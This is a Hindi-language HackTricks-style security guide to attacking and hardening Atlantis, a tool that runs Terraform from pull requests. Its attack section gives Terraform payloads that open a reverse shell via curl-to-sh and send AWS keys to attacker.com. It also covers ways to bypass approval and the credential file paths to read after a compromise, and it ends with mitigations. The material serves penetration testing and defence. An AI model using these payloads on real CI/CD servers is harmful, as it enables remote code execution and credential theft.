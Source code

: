 # अटलांटिस सुरक्षा

<details>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जांच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}

## मौलिक जानकारी

अटलांटिस आम तौर पर आपको आपके गिट सर्वर से पुल रिक्वेस्ट्स से टेराफ़ॉर्म चलाने में मदद करता है।

![](<../.gitbook/assets/image (161).png>)

## स्थानीय लैब

1. [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) पर **अटलांटिस रिलीज़ पेज** पर जाएं और उसे डाउनलोड करें जो आपके लिए उपयुक्त है।
2. अपने **गिटहब** उपयोगकर्ता का **व्यक्तिगत टोकन** (रेपो एक्सेस के साथ) बनाएं
3. `./atlantis testdrive` चलाएं और यह एक **डेमो रेपो** बनाएगा जिसका आप अटलांटिस से बात करने के लिए उपयोग कर सकते हैं।
4. आप 127.0.0.1:4141 में वेब पेज तक पहुंच सकते हैं

## अटलांटिस एक्सेस

### गिट सर्वर क्रेडेंशियल्स

**अटलांटिस** कई गिट होस्ट्स का समर्थन करता है जैसे **गिटहब**, **गिटलैब**, **बिटबकेट** और **एज़्यूर डेवऑप्स**।\
हालांकि, इन प्लेटफॉर्मों में रेपो में पहुंचने और कार्रवाई करने के लिए, उन्हें कुछ **विशेषाधिकार पहुंच दिए जाने की आवश्यकता है** (कम से कम लेखन अनुमतियाँ)।\
[**दस्तावेज़**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) इन प्लेटफॉर्मों में एक उपयोगकर्ता बनाने की प्रोत्साहना करते हैं, लेकिन कुछ लोग व्यक्तिगत खाते का उपयोग कर सकते हैं।

{% hint style="warning" %}
किसी भी स्थिति में, हमलावर की दृष्टि से, **अटलांटिस खाता** बहुत **रोचक** होगा **कंप्रोमाइज** करने के लिए।
{% endhint %}

### वेबहुक्स

अटलांटिस वैकल्पिक रूप से [**वेबहुक सीक्रेट्स**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) का उपयोग करता है ताकि वह आपके गिट होस्ट से प्राप्त **वेबहुक्स** को **वैध** मान सके।

इसे पुष्टि करने का एक तरीका यह हो सकता है कि **आप अपने गिट होस्ट के आईपी से केवल अनुरोधों को अनुमति दें** लेकिन एक आसान तरीका एक वेबहुक सीक्रेट का उपयोग करना है।

ध्यान दें कि यदि आप निजी गिटहब या बिटबकेट सर्वर का उपयोग नहीं करते हैं, तो आपको वेबहुक एंडपॉइंट को इंटरनेट पर उजागर करने की आवश्यकता होगी।

{% hint style="warning" %}
अटलांटिस **वेबहुक्स को उजागर** करेगा ताकि गिट सर्वर उसे सूचनाएं भेज सके। हमलावर की दृष्टि से यह रोचक होगा जानना **कि क्या आप संदेश भेज सकते हैं**।
{% endhint %}

### प्रदाता क्रेडेंशियल्स <a href="#provider-credentials" id="provider-credentials"></a>

[दस्तावेज़ से:](https://www.runatlantis.io/docs/provider-credentials.html)

अटलांटिस टेराफ़ॉर्म चलाता है बस `terraform plan` और `apply` कमांड्स को सर्वर पर **अटलांटिस होस्ट किया जाता है**। जिस तरह से जब आप स्थानीय रूप से टेराफ़ॉर्म चलाते हैं, अटलांटिस को आपके विशिष्ट प्रदाता के लिए क्रेडेंशियल्स की आवश्यकता है।

यह आप पर निर्भर करता है कि आप [अपने विशिष्ट प्रदाता के लिए क्रेडेंशियल्स प्रदान कैसे करते हैं](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) अटलांटिस के लिए:

* अटलांटिस [हेल्म चार्ट](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) और [AWS फारगेट मॉड्यूल](https://www.runatlantis.io/docs/deployment.html#aws-fargate) के लिए उनके खुद के तरीके हैं प्रदाता क्रेडेंशियल्स के लिए। उनके दस्तावेज़ पढ़ें।
* यदि आप अटलांटिस को एक क्लाउड में चला रहे हैं तो कई क्लाउड्स के पास उन पर चल रहे एप्लिकेशन्स को क्लाउड एपीआई एक्सेस देने के तरीके होते हैं, जैसे:
* [AWS EC2 रोल्स](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (खोजें "EC2 रोल")
* [GCE इंस्टेंस सर्विस अकाउंट्स](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* बहुत से उपयोगकर्ता पर्यावरण चर निर्मित करते हैं, जैसे `AWS_ACCESS_KEY`, जहां अटलांटिस चल रहा है।
* अन्य लोग आवश्यक कॉन्फ़िग फ़ाइलें बनाते हैं, जैसे `~/.aws/credentials`, जहां अटलांटिस चल रहा है।
* प्रदाता क्रेडेंशियल्स प्राप्त करने के लिए [HashiCorp Vault Provider](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) का उपयोग करें।

{% hint style="warning" %}
**कंटेनर** जहां **अटलांटिस** **चल रहा है** उसमें संबंधित प्रदाताओं (AWS, GCP, गिटहब...) के प्रिविलेज्ड क्रेडेंशियल्स होंगे।
{% endhint %}

### वेब पेज

डिफ़ॉल्ट रूप से अटलांटिस लोकलहोस्ट में पोर्ट 4141 में एक **वेब पेज चलाएगा**। यह पेज आपको अटलांटिस एप्लाई को सक्षम/अक्षम करने और रेपो की प्लान स्थिति की जांच करने और उन्हें अनलॉक करने की अनुमति देता है (इससे चीजों को संशोधित करने की अनुमति नहीं है, इसलिए यह इतना उपयोगी नहीं है)।

आप शायद इंटरनेट पर इसे उजागर नहीं पाएंगे, लेकिन डिफ़ॉल्ट रूप से लगता है कि इसे एक्सेस करने के लिए **कोई क्रेडेंशियल्स की आवश्यकता नहीं है** (और यदि हैं तो `atlantis`:`atlantis` **डिफ़ॉल्ट** होते हैं)।

## सर्वर कॉन्फ़िगरेशन

`atlantis server` कॉन्फ़िगरेशन को कमांड लाइन फ्लैग्स, एनवायरमेंट वेरिएबल्स, एक कॉन्फ़िग फ़ाइल या तीनों का मिश्रण के माध्यम से निर्दिष्ट किया जा सकता है।

* आप [**यहाँ फ्लैग्स की सूची**](https://www.runatlantis.io
#### पीआर सुरक्षा

एटलांटिस अन्य किसी व्यक्ति द्वारा **`मंजूर`** किया जाना चाहिए (यदि यह शाखा सुरक्षा में सेट नहीं की गई है) और/या **`मर्जयोग्य`** (शाखा सुरक्षा पारित) होना चाहिए **एप्लाई चलाने से पहले**. सुरक्षा के दृष्टिकोण से, दोनों विकल्प सेट करना एक सिफारिश है।

यदि `allowed_overrides` सत्य है, तो इन सेटिंग को **प्रत्येक परियोजना में `/atlantis.yml` फ़ाइल द्वारा ओवरराइट किया जा सकता है**।

#### स्क्रिप्ट

रेपो कॉन्फ़िग **स्क्रिप्ट निर्दिष्ट** कर सकता है जो [**पहले**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_पूर्व-कार्यप्रवृत्ति हुक्स_) और [**बाद**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_पोस्ट-कार्यप्रवृत्ति हुक्स_) **कार्यप्रवृत्ति** के **पहले** और **बाद** **चलाए जाने वाले हैं**।

रेपो `/atlantis.yml` फ़ाइल में **इन स्क्रिप्ट को निर्दिष्ट करने की** कोई विकल्प नहीं है।

#### कार्यप्रवृत्ति

रेपो कॉन्फ़िग (सर्वर साइड कॉन्फ़िग) में आप [**नया डिफ़ॉल्ट कार्यप्रवृत्ति निर्दिष्ट**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), या [**नए कस्टम कार्यप्रवृत्तियाँ बना सकते हैं**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**।** आप भी **निर्मित** हुए **नए** को **पहुंचने** वाले **रेपो** को **निर्दिष्ट** कर सकते हैं।\
फिर, आप प्रत्येक रेपो के **atlantis.yaml** फ़ाइल में **उपयोग करने के लिए कार्यप्रवृत्ति निर्दिष्ट कर सकते हैं**।

{% hint style="danger" %}
यदि [**सर्वर साइड कॉन्फ़िग**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) झंडा `allow_custom_workflows` को **सत्य** पर सेट किया गया है, तो कार्यप्रवृत्तियाँ प्रत्येक रेपो की **`atlantis.yaml`** फ़ाइल में **निर्दिष्ट** की जा सकती हैं। यह भी संभावना है कि **`allowed_overrides`** भी **`कार्यप्रवृत्ति`** को **ओवरराइड करने के लिए निर्दिष्ट करे** जा रहा है जो उपयोग किया जाएगा।\
यह मुख्य रूप से **एटलांटिस सर्वर में RCE को किसी भी उपयोगकर्ता को देगा जो उस रेपो तक पहुंच सकता है**।
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest नीति जांच

एटलांटिस **सर्वर-साइड** [**conftest**](https://www.conftest.dev/) **नीतियों** को प्लान आउटपुट के खिलाफ चलाने का समर्थन करता है। इस स्टेप का उपयोग करने के सामान्य मामले शामिल हैं:

* मॉड्यूल की सूची का उपयोग नकारना
* संसाधन की विशेषताओं की प्रमाणित करना निर्माण समय पर
* अनजाने में संसाधन हटाने को पकड़ना
* सुरक्षा जोखिमों को रोकना (जैसे कि सुरक्षित पोर्ट्स को सार्वजनिक करना)

आप यह कैसे कॉन्फ़िगर कर सकते हैं, [**दस्तावेज़ में**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works) देख सकते हैं।

## एटलांटिस कमांड

[**दस्तावेज़ में**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) आप उन विकल्पों को खोज सकते हैं जिन्हें आप एटलांटिस चलाने के लिए उपयोग कर सकते हैं:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## हमले

{% hint style="warning" %}
यदि आप उत्पीड़न के दौरान इस **त्रुटि** को पाते हैं: `Error: Error acquiring the state lock`

तो आप इसे ठीक कर सकते हैं द्वारा निम्नलिखित को चला कर:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### एटलांटिस योजना RCE - कॉन्फ़िग संशोधन नए पीआर में

यदि आपके पास किसी रिपॉजिटरी पर लेखन एक्सेस है तो आप उस पर एक नयी शाखा बना सकते हैं और एक पीआर उत्पन्न कर सकते हैं। यदि आप **`atlantis plan` का निष्पादन कर सकते हैं** (या शायद यह स्वचालित रूप से निष्पादित होता है) **तो आप एटलांटिस सर्वर के अंदर RCE कर सकते हैं**।

आप इसे [**एटलांटिस को एक बाह्य डेटा स्रोत लोड करने**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) के द्वारा कर सकते हैं। बस `main.tf` फ़ाइल में निम्नलिखित पेलोड डालें:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### गुप्ततर हमला

आप इस हमला को एक **गुप्ततर तरीके से** भी कर सकते हैं, इन सुझावों का पालन करके:

* टेराफ़ॉर्म फ़ाइल में सीधे रेव शैल जोड़ने की बजाय, आप एक बाह्य संसाधन को **लोड** कर सकते हैं जिसमें रेव शैल हो:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
आप यहाँ [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules) पर rev shell कोड पा सकते हैं।

* बाहरी संसाधन में, **ref** फीचर का उपयोग करें ताकि **terraform rev shell कोड को रिपो में एक शाखा में छुपा सकें**, कुछ इस प्रकार: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **इसके बजाय** Atlantis को ट्रिगर करने के लिए **मास्टर पर PR बनाने** की बजाय, **2 शाखाएं बनाएं** (test1 और test2) और **एक से दूसरे तक PR बनाएं**। जब आप हमला पूरा कर लें, तो **PR और शाखाएं हटा दें**।

### Atlantis plan Secrets Dump

आप **terraform द्वारा उपयोग किए गए रहस्यों को डंप कर सकते हैं** `atlantis plan` (`terraform plan`) चलाकर, जैसे कि टेराफ़ॉर्म फ़ाइल में कुछ इस प्रकार डालकर:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### एटलांटिस एप्लाई RCE - कॉन्फ़िग मॉडिफ़िकेशन न्यू पीआर में

यदि आपके पास रिपॉजिटरी पर राइट एक्सेस है तो आप उस पर एक नयी ब्रांच बना सकते हैं और एक पीआर जेनरेट कर सकते हैं। यदि आप **`atlantis apply` को एक्सीक्यूट कर सकते हैं तो आप एटलांटिस सर्वर के अंदर RCE कर सकते हैं**।

हालांकि, आपको आम तौर पर कुछ सुरक्षा उपायों को दाखिल करने की आवश्यकता होगी:

* **मर्जेबल**: यदि यह सुरक्षा एटलांटिस में सेट की गई है, तो आपको केवल **`atlantis apply` चला सकते हैं अगर पीआर मर्जेबल है** (जिसका मतलब है कि ब्रांच सुरक्षा को दाखिल करने की आवश्यकता है)।
* [**ब्रांच सुरक्षा को दाखिल करने के लिए पोटेंशियल बायपास**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md) देखें
* **मंजूर**: यदि यह सुरक्षा एटलांटिस में सेट की गई है, तो कुछ **अन्य उपयोगकर्ता को पीआर को मंजूरी देनी होगी** इससे पहले कि आप `atlantis apply` चला सकें
* डिफ़ॉल्ट रूप से आप [**इस सुरक्षा को दाखिल करने के लिए गिटबॉट टोकन का दुरुपयोग कर सकते हैं**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

**`terraform apply` को एक दुरुपयोगी टेराफ़ॉर्म फ़ाइल पर चलाना** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**।**\
आपको बस यह सुनिश्चित करना है कि कुछ पेलोड जैसे निम्नलिखित वाले `main.tf` फ़ाइल में समाप्त हो जाएं:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
### टेराफ़ॉर्म पैरामीटर इंजेक्शन

जब `atlantis plan` या `atlantis apply` चलाया जा रहा है तो टेराफ़ॉर्म अंदर-जरूरत होता है, आप टेराफ़ॉर्म को एटलांटिस से कमेंट करके कमांड पास कर सकते हैं:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### कस्टम वर्कफ़्लो

**`atlantis.yaml`** फ़ाइल में निर्दिष्ट **हानिकारक कस्टम बिल्ड कमांड** चलाना। एटलांटिस पुल अनुरोध शाखा से `atlantis.yaml` फ़ाइल का उपयोग करता है, **नहीं** `master` का।  
इस संभावना का उल्लेख पिछले खंड में किया गया था:

{% hint style="danger" %}
यदि [**सर्वर साइड कॉन्फ़िग**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) ध्वज `allow_custom_workflows` को **सही** पर सेट किया गया है, तो प्रक्रियाएँ प्रत्येक रेपो के **`atlantis.yaml`** फ़ाइल में **निर्दिष्ट** की जा सकती हैं। यह भी संभावना है कि **`allowed_overrides`** वास्तव में **`workflow`** को भी निर्दिष्ट करता है ताकि उस वर्कफ़्लो को **ओवरराइड** किया जा सके।

यह मुख्य रूप से **एटलांटिस सर्वर में RCE को किसी भी उपयोगकर्ता को देगा जो उस रेपो तक पहुंच सकता है**।
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### बायपास प्लान/लागू सुरक्षा

यदि [**सर्वर साइड कॉन्फ़िग**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) ध्वज `allowed_overrides` _को_ `apply_requirements` कॉन्फ़िगर किया गया है, तो रिपो ने **प्लान/लागू सुरक्षा को बायपास करने के लिए** संभव है।
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR हाइजैकिंग

अगर कोई **`atlantis plan/apply` टिप्पणियाँ आपके वैध पुल अनुरोधों पर भेजता है,** तो यह तब चलाएगा जब आप चाहते नहीं है।

और इसके अतिरिक्त, अगर आपने **शाखा संरक्षण** में कॉन्फ़िगर किया नहीं है कि हर बार जब उसमें **नया कमिट पुश किया जाता है** तो हर पीआर पुनः मूल्यांकन के लिए पूछने के लिए, कोई **दुर्भाग्यपूर्ण कॉन्फ़िगरेशन** (पिछले स्थितियों की जांच करें) तेराफ़ॉर्म कॉन्फ़िगरेशन में लिख सकता है, `atlantis plan/apply` चला सकता है और RCE प्राप्त कर सकता है।

यह है **सेटिंग** गिटहब शाखा संरक्षण में:

![](<../.gitbook/assets/image (216).png>)

### वेबहुक सीक्रेट

अगर आप **उपयोग किए गए वेबहुक सीक्रेट** को चुरा लेते हैं या अगर वहाँ **कोई वेबहुक सीक्रेट उपयोग नहीं हो रहा** है, तो आप **एटलांटिस वेबहुक** को बुला सकते हैं और सीधे **एटलांटिस कमांड** को आमंत्रित कर सकते हैं।

### बिटबकेट

बिटबकेट क्लाउड **वेबहुक सीक्रेट्स का समर्थन नहीं करता है**। यह आक्रमणकारियों को बिटबकेट से **फर्जी अनुरोध** भेजने की अनुमति देता है। सुनिश्चित करें कि आप केवल बिटबकेट IPs को अनुमति दे रहे हैं।

* इसका मतलब है कि एक **हमलावर** एटलांटिस को **फर्जी अनुरोध** कर सकता है जो ऐसा लगता है कि वह बिटबकेट से आ रहा है।
* यदि आप `--repo-allowlist` को निर्दिष्ट कर रहे हैं तो उन्हें केवल उन रेपों के संबंधित फर्जी अनुरोध करने की अनुमति हो सकती है तो उनका सबसे अधिक नुकसान वह हो सकता है जो आपके अपने रेपों पर योजना/लागू कर सकते हैं।
* इसे रोकने के लिए, [बिटबकेट के आईपी पतों](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) को अनुमति दें (आउटबाउंड आईपीवी4 पते देखें)।

## पोस्ट-एक्सप्लोइटेशन

यदि आपने सर्वर तक पहुंचने में सफलता प्राप्त की है या कम से कम आपको एलएफआई है तो यहां कुछ दिलचस्प चीजें हैं जिन्हें आपको पढ़ने की कोशिश करनी चाहिए:

* `/home/atlantis/.git-credentials` VCS एक्सेस क्रेडेंशियल्स शामिल हैं
* `/atlantis-data/atlantis.db` अधिक जानकारी के साथ VCS एक्सेस क्रेडेंशियल्स शामिल हैं
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` टेराफ़ॉर्म स्टेट फ़ाइल
* उदाहरण: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` एनवायरनमेंट वेरिएबल्स
* `/proc/[2-20]/cmdline` `atlantis server` का कमांड लाइन (संवेदनशील डेटा शामिल हो सकता है)

## संरोधन

### सार्वजनिक रेपोज़ पर उपयोग न करें <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

क्योंकि किसी भी व्यक्ति को सार्वजनिक पुल अनुरोधों पर टिप्पणी करने की अनुमति है, भले ही सभी सुरक्षा संरोधन उपलब्ध हो, सही सुरक्षा सेटिंग के बिना सार्वजनिक रेपोज़ पर एटलांटिस चलाना खतरनाक है।

### `--allow-fork-prs` का उपयोग न करें <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

यदि आप सार्वजनिक रेपो पर चला रहे हैं (जिसे सिफारिश नहीं किया गया है, ऊपर देखें) तो आपको `--allow-fork-prs` (डिफ़ॉल्ट रूप से अस्वीकृत) सेट नहीं करना चाहिए क्योंकि कोई भी अपने फोर्क से आपके रेपो में पुल अनुरोध खोल सकता है।

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

एटलांटिस आपको `--repo-allowlist` फ्लैग के माध्यम से वेबहुक से आने वाले रेपोज़ की अनुमति देने के लिए एक अनुमति सूची निर्दिष्ट करने की आवश्यकता है। उदाहरण के लिए:

* विशिष्ट रेपोज़टरी: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* आपका संगठन सभी: `--repo-allowlist=github.com/runatlantis/*`
* आपके GitHub एंटरप्राइज इंस्टॉल में हर रेपो: `--repo-allowlist=github.yourcompany.com/*`
* सभी रेपोज़टरी: `--repo-allowlist=*`. जब आप संरक्षित नेटवर्क में हो तो उपयोगी है लेकिन एक वेबहुक सीक्रेट भी सेट किए बिना खतरनाक है।

यह फ्लैग सुनिश्चित करता है कि आपका एटलांटिस स्थापना उन रेपोज़टरीज़ के साथ उपयोग किया जा रहा है जिन्हें आप नियंत्रित करते हैं। अधिक विवरण के लिए `atlantis server --help` देखें।

### टेराफ़ॉर्म प्लानिंग की सुरक्षा <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

यदि हमलावर पुल अनुरोध जमाते हैं जिसमें दुर्भाग्यपूर्ण टेराफ़ॉर्म कोड है तो आपको ध्यान देना चाहिए कि `terraform apply` मंजूरियाँ पर्याप्त नहीं हैं। एक [`external` डेटा स्रोत](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) का उपयोग करके या एक दुर्भाग्यपूर्ण प्रोवाइडर निर्दिष्ट करके `terraform plan` में दुर्भाग्यपूर्ण कोड चलाया जा सकता है। इस कोड फिर आपके क्रेडेंशियल्स को बाहर ले जा सकता है।

इसे रोकने के लिए, आप कर सकते हैं:

1. एटलांटिस इमेज या होस्ट में प्रोवाइडर्स को बेक करें और उत्पादन में निषेध दें।
2. प्रोवाइडर रजिस्ट्री प्रोटोकॉल को आंतरिक रूप से लागू करें और सार्वजनिक निषेध दें, इस तरह आप नियंत्रण में रखेंगे किसके पास रजिस्ट्री को लिखने की पहुंच है।
3. अपने [सर्वर-साइड रेपो कॉन्फ़िगरेशन](https://www.runatlantis.io/docs/server-side-repo-config.html) की `plan` चरण को अवैध प्रोवाइडर या डेटा स्रोत के उपयोग के खिलाफ मान्यता देने के लिए सत्यापित करने के लिए बदलें या निषेधित उपयोगकर्ताओं से पीआर करें। आप इस बिंदु पर अतिरिक्त मान्यता भी जोड़ सकते हैं, जैसे कि `plan` को जारी करने से पहले पीआर पर "थम्स-अप" की आवश्यकता। यहां कॉन्फ़ेस्ट का उपयोग किया जा सकता है।

### वेबहुक सीक्रेट्स <a href="#webhook-secrets" id="webhook-secrets"></a>

एटलांटिस को वेबहुक सीक्रेट्स के साथ चलाया जाना चाहिए जो `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET` एनवायरमेंट वेरिएबल्स के माध्यम से सेट किए गए हों। `--repo-allowlist` फ्लैग सेट किए बिना, वेबहुक सीक्र
